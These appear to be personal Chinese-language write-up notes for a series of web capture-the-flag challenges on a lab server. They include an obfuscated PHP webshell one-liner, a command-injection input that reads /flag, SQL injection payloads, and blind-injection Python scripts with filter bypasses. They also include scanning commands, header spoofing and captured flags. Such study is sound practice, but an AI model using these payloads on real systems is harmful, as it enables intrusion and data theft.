


# 1 //get

flag{33705704cc435a5d81ece37d51f58d04}


# 2//post

flag{e821b22d8f5568ab3c889f9172762ee5}


# 3//滑稽
前端溢出了


# 4//计算器

前端html改一下输入上限，从一改成二


# 5//alert
[HtmlEncode编码/HtmlEncode解码 - 站长工具](https://tool.chinaz.com/tools/htmlencode.aspx)
&#102;&#108;&#97;&#103;&#123;&#54;&#55;&#51;&#100;&#101;&#48;&#51;&#57;&#102;&#100;&#57;&#52;&#98;&#99;&#54;&#100;&#56;&#55;&#52;&#97;&#50;&#53;&#98;&#55;&#51;&#49;&#99;&#53;&#102;&#101;&#54;&#56;&#125


# 6//你必须让他停下
禁用js
刷新页面
直到出现CTF图片
然后在源码里找


# 7//source
[Web 扫描神器：Gobuster 保姆级教程（附链接）_gobuster参数-CSDN博客](https://blog.csdn.net/2302_82189125/article/details/135999920)

照例先访问页面查看源代码

发现有一个flag，但是是假的
之后按照题目提示使用kali对网址进行扫描
可以使用gobuster进行扫描，也可以直接使用dirb对目录进行扫描
gobuster速度快一些
gobuster扫描结果
`gobuster dir -u http://114.67.175.224:10934 -w /usr/share/wordlists/dirb/commont.txt`

dirb扫描结果
命令`dirb http://114.67.175.224:13766`

扫描可以看到.git文件
使用命令`wget -r http://114.67.175.224:10934/.git`
下载.git
然后使用命令`git reflog`用于查看所有对分支或仓库进行的引用更新

然后使用git show 命令查看更新 找flag


# 8//矛盾

[php 弱类型总结 - Mrsm1th - 博客园](https://www.cnblogs.com/Mrsm1th/p/6745532.html)
很简单的一道题输入不是数字 且第一位是1就行


# 9//头等舱


# 10//备份是个好习惯
根据提示去扫描后台
发现备份文件index.php.bak
下载下来
得到网站源码
#MD5弱比较 
```php
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```
分析源码可知 解题为 双写绕过和MD5相关
[md5 collision（md5碰撞）之记录一些MD5值 - 0yst3r - 博客园](https://www.cnblogs.com/0yst3r-2046/p/10748412.html)


# 11//变量1
源码

```php
flag In the variable ! `<?php        
error_reporting(0);   
include "flag1.php";   
highlight_file(__file__);  
if(isset($_GET['args']))
{    $args = $_GET['args'];      
     if(!preg_match("/^\w+$/",$args)){          
     die("args error!");       
     }       
     eval("var_dump($$args);");   }`
```

超全局变量[[php变量]]

PHP 的 **$ GLOBALS** 是一个超全局变量，它引用全局作用域中可用的全部变量。变量时一个包含了全部变量的全局组合数组，变量的名字就是数组的键。有时候当 flag 隐藏在某个变量中时，可以考虑从 GLOBALS 中得到。


# 12//本地管理员
输入密码尝试
查看源码发现
 `dGVzdDEyMw==`base64加密=》解密为test123 猜测为密码
 提示ip禁止访问=》猜测需要本地访问=》使用bp尝试修改


# 13//game1

game题 应该是需要完成闯关到达相应的分数

游戏失败向服务器发送本局游戏的得分，使用bp抓包，找到sign
sign=zMNTA===
发现是zM后面的值是base64编码
修改score和sign即可
很神奇 sign的base64编码后面必须带两个==


# 14//看看源代码？
在网站源代码中获得
```php

var p1 = '%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';
var p2 = '%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';
eval(unescape(p1) + unescape('%35%34%61%61%32' + p2));

```


```php
p1=function checkSubmit(){var a=document.getElementById("password");if("undefined"!=typeof a){if("67d709b2b


p2=  aa648cf6e87a7114f1"==a.value)return!0;alert("Error");a.focus();return!1}}document.getElementById("levelQuest").onsubmit=checkSubmit;

54aa2

67d709b2b+54aa2+aa648cf6e87a7114f1
67d709b2b54aa2aa648cf6e87a7114f1

```


# 15//网站被黑
比较简单的题 用dirsearch扫描网站 发现由shell.php

访问shell.php

使用bp爆破


# 16//好像需要密码


# 17//shell
提示：过狗一句话

```php
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s'])
```


# 18//eval

一句话木马，蚁剑

或者命令
（尝试后只能用tac 不能用cat）


# 19//需要管理员
[如何使用robots.txt及其详解-CSDN博客](https://blog.csdn.net/sunsineq/article/details/111057069)


bp爆破或者直接猜是admin


# 20//程序员本地网站
#本地访问 #http头伪造

X-Forwarded-For: 127.0.0.1


# 21//你从哪里来
#http头伪造


# 22//前女友
?v1=s1885207154a&v2=s1091221200a&v3[]=xxxx
#MD5弱比较

查看源码可以看见链接点进去

```php
<?php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    $v3 = $_GET['v3'];
    if($v1 != $v2 && md5($v1) == md5($v2)){
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```
要求v1和v2不同 但是md5相同
v3和flag值相同
v1和v2 MD5通过科学计数法或者数组
http://114.67.175.224:16663/index.php/?v1=s1885207154a&v2=s1091221200a&v3[]=xxxx
http://114.67.175.224:16663/index.php/?v1[]=adadadsa&v2[]=adasdas&v3[]=xxxx
http://114.67.175.224:16663/index.php/?v1[]=123&v2[]=231&v3[]=xxxx
v3通过数组报错完成


# 23//#### MD5
#MD5弱比较 
[md5 collision（md5碰撞）_md5 collision qnkcdzo-CSDN博客](https://blog.csdn.net/qq_38603541/article/details/97125995)
[常见的MD5碰撞：md5值为0e开头_md5 0e开头-CSDN博客](https://blog.csdn.net/qq_38603541/article/details/97108663)


# 24//各种绕过哟

js中=== 与== 的区别
[js中== 和 === 区别 - 果感 - 博客园](https://www.cnblogs.com/nelson-hu/p/7922731.html)


# 25//秋名山车神


构建脚本
```python
import requests #引入request库
import re       #引入re库

url = '''http://114.67.175.224:17737/'''
s = requests.session()  #用session会话保持表达式
retuen = s.get(url)
equation = re.search(r'(\d+[+\-*])+(\d+)',retuen.text).group()
result = eval(equation) #eval()函数用来执行一个字符串表达式,并返回表达式的值。
key = {'value':result}#创建一个字典类型用于传参
flag = s.post(url,data=key)#用post方法传上去
print(flag.text)
```

[CTF-web 第十一部分 实用脚本_ctf web脚本合集-CSDN博客](https://blog.csdn.net/iamsongyu/article/details/84105013)


# 26//速度要快

构建脚本
```python
import requests
import base64

url = "http://114.67.175.224:19237/"
session = requests.Session()
myrequests = session.get(url)   # 记录下session
header_flag = myrequests.headers['flag']
print(header_flag)
header_flag_decode = base64.b64decode(header_flag)  # python3这个操作会导致生成bytes对象，python2直接可以使用decodestring
print(header_flag_decode)
header_flag_decode = header_flag_decode.decode()    # 因为上一步解码时生成了bytes类型对象，需要转化为string，decode()默认编码是utf-8
print(header_flag_decode)
margin_value = header_flag_decode.split(": ")[1]    # 取他说的flag内容，作为margin参数值
print(margin_value)
page = session.post(url, {"margin": base64.b64decode(margin_value)})
print(page.text)
```


# 27//file_get_contents
[[file_get_contents()]]

```php
`<?php   extract($_GET);   if (!empty($ac))   {   $f = trim(file_get_contents($fn));   if ($ac === $f)   {   echo "<p>This is flag:" ." $flag</p>";   }   else   {   echo "<p>sorry!</p>";   }   }   ?>`
```


flag{19ed599fb76b8f15c7fd36b51a3e8ad5}


# 28//成绩查询

[利用sqlmap进行POST注入_sqlmap post-CSDN博客](https://blog.csdn.net/lwpoor123/article/details/85236496)
[sqlmap使用教程(包含POST型注入方式)_sqlmap post-CSDN博客](https://blog.csdn.net/weixin_73904941/article/details/143220574)

sqlmap使用
psot类型
先用BP抓包

然后保存文发送到kali
使用命令`sqlmap -r /home/kali/桌面/sql.txt --batch -dbs`


# 29//no select


# 30//login2
[Bugku CTF login2(SKCTF) - 简书](https://www.jianshu.com/p/4f8d8d8b7b31)
```sql
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```
$row通常是从数据库查询结果中提取的一行数据（如`mysqli_fetch_assoc()`或`PDO::fetch()`的返回值）。

从http的响应头中获得JHNxbD0iU0VMRUNUIHVzZXJuYW1lLHBhc3N3b3JkIEZST00gYWRtaW4gV0hFUkUgdXNlcm5hbWU9JyIuJHVzZXJuYW1lLiInIjsKaWYgKCFlbXB0eSgkcm93KSAmJiAkcm93WydwYXNzd29yZCddPT09bWQ1KCRwYXNzd29yZCkpewp9
base64解码后获得上述代码
分析代码
首先分析注入点username 同时还要满足 selcet获得的值$row不为空->得注入语句select至少输出两个值，第二个值password满足与post输入得MD5（password）相同
构造sql语句
`username=admin' union select 1,md5(123)#&password=123`
成功进入下一步
进程监控系统

123 | cat /flag >1.php
这题有空再看看
flag{89581891473eedc216e1ca9ab75339dc}

# 31//sql注入
提示：布尔盲注
https://hashes.com/zh/decrypt/hash
登录界面，尝试登录，发现网站对用户名和密码作出不同判断
会判断数据库中是否含有该用户名——》可以分别爆破用户名


得到用户名admin

使用bp构建sql注入字典，爆破得到过滤字符

可以使用^ <>等代替=
()代替空格
构建payload
`a'or(1<>2)#`
因为是bool注入，构建payload脚本
```python
#布尔盲注不仅仅是在密码正确和密码错误两种情况下，比如你输入账户，可能出现“账户不存在”和“存在”两种情况，这也是布尔。
import requests
import string,hashlib
url = 'http://114.67.175.224:19114/'
sss = string.digits + (string.ascii_lowercase)
a = ''
for i in range(1, 50):
    flag = 0
    for j in sss:
        payload = "admin'^((ascii(mid((select(password)from(admin))from(%s))))<>%s)^1#" % (i, ord(j))
        #屏蔽了","，改用mid()函数，from表示起始位置
        #ascii()当传入一个字符串时取出第一个字母的ascii()，相当于mid()的第二参数，for取出，也相当于limit
        #<>表示不等号
        #^表示异或
        payload2= "admin123'or((ascii(mid((select(password)from(admin))from(%s))))<>%s)#"%(i,ord(j))
        #由于没有屏蔽or，所以也可以用这个，可以形成一组布尔
        payload3= "admin123'or((ascii(mid((select(database()))from(%s))))<>%s)#"%(i,ord(j))
        data = {'username': payload, 'password': 'admin'}
        res = requests.post(url, data=data).text
        if 'username does not exist!' in res:
            a += j
            flag = 1
            print(a)
            break
    if flag == 0:
        break
print(a)
```

得到密码的md5值 4dcc88f8f1bc05e7c2ad1a60288481a2
    

# 32都过滤了
    字符串与数字比较会变成0
    在MySQL中，如果你尝试执行 `'admin' - 0`，MySQL会将字符串 `'admin'` 转换为数字。由于 `'admin'` 不是一个有效的数字字符串，MySQL会将其转换为0。因此，`'admin' - 0` 的结果是0
一会儿再做一遍
```python
import requests
# 目标 URL
url = "http://114.67.175.224:12077/login.php"
flag=''
for i in range(1,250):
        left=32
        right=128
        mid=(left+right)//2
        while(left<right):   payload="admin'^((ascii(mid((select(group_concat(passwd)))from(%s)))>%s))^'1"%(i,mid)
                data = {'uname': payload,
                        "passwd": "adadada"}
                res = requests.post(url, data=data)
                #print(res.text)
                if 'password' in res.text:
                        left=mid+1
                else:
                        right=mid
                mid=(left+right)//2
        if(mid==32 or mid==127):
                break
        print(mid)
        #flag=flag+chr(mid)
        print(flag)
```


必须要在url后面加上login.php

# 实时监控

执行

flag{680ef09599e011960603ca7c422e3b9a}flag{680ef09599e011960603ca7c422e3b9a}